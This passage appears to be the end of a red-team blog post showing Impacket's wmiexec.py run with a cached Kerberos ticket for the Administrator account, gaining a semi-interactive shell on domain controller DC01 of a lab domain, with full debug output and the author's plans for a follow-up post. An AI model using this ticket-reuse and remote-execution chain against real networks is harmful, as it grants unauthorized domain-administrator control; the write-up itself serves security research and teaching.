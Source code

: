```bash
KRB5CCNAME=$(pwd)/Administrator-MULT.ccache wmiexec.py runeterra.local/Administrator@dc01 -k -no-pass -debug 
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/eljay/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for CIFS/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[*] SMBv3.0 dialect used
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Target system is dc01 and isFQDN is True
[+] StringBinding: DC01[50601]
[+] StringBinding chosen: ncacn_ip_tcp:DC01[50601]
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[+] Using Kerberos Cache: /home/eljay/Administrator-MULT.ccache
[+] Returning cached credential for HOST/DC01@RUNETERRA.LOCAL
[+] Using TGS from cache
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
runeterra\administrator

C:\>hostname
DC01

C:\>exit
```

It works!!

# Fin

So I didnt end up modifing an impacket script, so thats to come soon. I’m planning on updating getST to allow for both multiple SPNs and to save to a single file.
There are still other opsec things to consider that I didnt mention. I’ll probs cover these in the second post.